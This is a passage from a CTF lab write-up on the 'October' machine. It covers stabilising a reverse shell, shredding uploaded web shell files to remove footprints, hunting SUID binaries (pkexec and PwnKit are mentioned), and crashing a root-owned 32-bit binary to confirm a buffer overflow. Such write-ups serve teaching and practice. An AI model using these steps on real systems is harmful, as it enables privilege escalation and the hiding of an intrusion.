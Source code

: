 Before starting the system enumeration phase with basic commands, I'm going to perform a **Console treatment** using `python`, in addition I perform an adjustment of the shell proportions. I delete all the files that I uploaded on the web server to get the **Reverse Shell** (cleaning of **footprints**, although the **logs** are another topic), and I start using enumeration commands that confirm me that the **codename** is **Trusty**, there are only two users of the system that have **Bash** shell and I can already access the contents of the first flag. I find two binaries with the special **SUID** permission that catch my attention, the first one is `pkexec` and I could use **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}** to **Escalate privileges** but it is not the intended path for this lab, the second binary has a very suggestive name (**ovrflw**) and evokes the attack that I must perform to finish engaging the machine. I start an investigation of the program, it is a **32-bit** binary, the **owner** of it is **root** and if I do a quick test I find that the program is vulnerable to a **Buffer Overflow**.

```bash
which python3
python3 -c "import pty;pty.spawn('/bin/bash')"
# [Ctrl^Z]
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

shred -zun 10 pwn3d.jpeg
shred -zun 10 shell.php.png
shred -zun 10 test.php.jpeg

uname -a
lsb_release -a
cat /etc/passwd | grep 'sh$'
find \-perm -4000 2>/dev/null
# ./usr/bin/pkexec
# ./usr/local/bin/ovrflw      <-- Too suspicious

ls -l ./usr/local/bin/ovrflw
# -rwsr-xr-x 1 root root
file !$
# ELF 32-bit LSB
!$
python3 -c 'print("A" * 100)'

./usr/local/bin/ovrflw AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Segmentation fault (core dumped)            :)
```

<br />
<img src="{{ site.img_path }}/october_writeup/October_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
